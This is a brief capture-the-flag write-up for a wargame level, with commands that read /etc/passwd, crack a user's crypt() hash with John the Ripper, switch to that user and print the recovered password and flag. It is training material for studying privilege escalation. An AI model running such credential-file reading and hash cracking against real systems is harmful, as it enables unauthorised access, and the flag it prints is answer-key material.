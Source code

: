 # level01

1. Find that we have acces to /etc/passwd
2. crack plain text hash of flag01's password with john

`cat /etc/passwd` and retrieve flag01's password's crypt() hash which is `42hDRfypTqqnw`

in kali: `echo "42hDRfypTqqnw" > hash`

in kali: `john hash` (using crypt(3))

gives: `abcdefg`

`su flag01`

`getflag`

gives flag: `f2av5il02puano7naaf6adaaf`
